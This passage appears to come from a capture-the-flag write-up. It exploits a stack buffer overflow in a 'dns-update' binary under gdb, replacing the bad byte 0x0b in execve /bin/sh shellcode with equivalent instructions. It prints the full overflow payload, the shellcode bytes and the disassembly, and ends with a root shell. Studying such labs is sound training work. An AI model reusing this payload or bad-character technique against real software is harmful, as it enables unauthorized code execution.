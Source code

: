 From the byte listing at `$esp` above we can see that the shellcode is complete up until the `0xb0` but it is null terminated after that. This means it is likely that `\x0b` is a bad character and we will need to fix this. `"\xb0\x0b"` are the bytes for the instruction `mov al, 0x0b`. AL needs to be set to 0xb when the `int 0x80` instruction is executed, because that tells Linux we want to call the execve syscall. Let's replace it with an equivalent couple of instructions. We will first set al to 0x0e (because \x0c\x0d are also common bad characters) and then decrement three times so it is equal to 0x0b. We will use the instructions `mov al, 0x0e` and `dec eax` 3 times. The bytes for these instructions are `"\xb0\x0e\x48\x48\x48"` so lets replace the `"\xb0\x0b"` in our input buffer with `"\xb0\x0e\x48\x48\x48"`. We now execute dns-update with our new input.

```
(gdb) r ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\xcc\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0e\x48\x48\x48\xcd\x80"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/dns-update ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\xcc\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0e\x48\x48\x48\xcd\x80"'`
ip address part 4 is invalid

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffff3e1 in ?? ()
(gdb) x/30bx $esp
0xbffff3e0:	0xcc	0x31	0xc9	0xf7	0xe1	0x51	0x68	0x2f
0xbffff3e8:	0x2f	0x73	0x68	0x68	0x2f	0x62	0x69	0x6e
0xbffff3f0:	0x89	0xe3	0xb0	0x0e	0x48	0x48	0x48	0xcd
0xbffff3f8:	0x80	0x00	0x04	0x08	0x08	0xc0
(gdb) x/15i $esp
   0xbffff3e0:	int3
=> 0xbffff3e1:	xor    %ecx,%ecx
   0xbffff3e3:	mul    %ecx
   0xbffff3e5:	push   %ecx
   0xbffff3e6:	push   $0x68732f2f
   0xbffff3eb:	push   $0x6e69622f
   0xbffff3f0:	mov    %esp,%ebx
   0xbffff3f2:	mov    $0xe,%al
   0xbffff3f4:	dec    %eax
   0xbffff3f5:	dec    %eax
   0xbffff3f6:	dec    %eax
   0xbffff3f7:	int    $0x80 << END OF SHELLCODE
   0xbffff3f9:	add    %al,(%eax,%ecx,1)
   0xbffff3fc:	or     %al,%al
   0xbffff3fe:	add    $0x8,%al
```

We can see that our shellcode is all intact down to the `int 0x80` and our replacement opcodes are correct and in memory. We will continue gdb with `c` and receive a shell!

```
(gdb) c
Continuing.
process 16575 is executing new program: /bin/dash
#
```
